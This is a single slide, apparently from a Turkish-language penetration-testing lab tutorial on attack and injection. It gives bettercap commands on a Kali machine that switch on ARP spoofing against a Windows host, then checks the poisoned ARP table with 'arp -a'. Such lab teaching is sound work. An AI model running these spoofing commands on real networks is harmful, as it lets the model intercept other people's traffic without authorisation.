

# Saldırı ve Enjeksiyon
Eğer sizde bu işlem başarılı olmadıysa kali makinenizin terminalinde bettercamp aktif iken sırasıyla aşağıdaki komutları yazıp çalıştırınız:
set arp.spoof.internal true
arp.spoof off
arp.spoof on
Bu komutları çalıştırdıktan sonra Windows’a gidip komut istemcisine arp –a komutunu yazınca MAC adreslerinin eşitlendiğini göreceksiniz.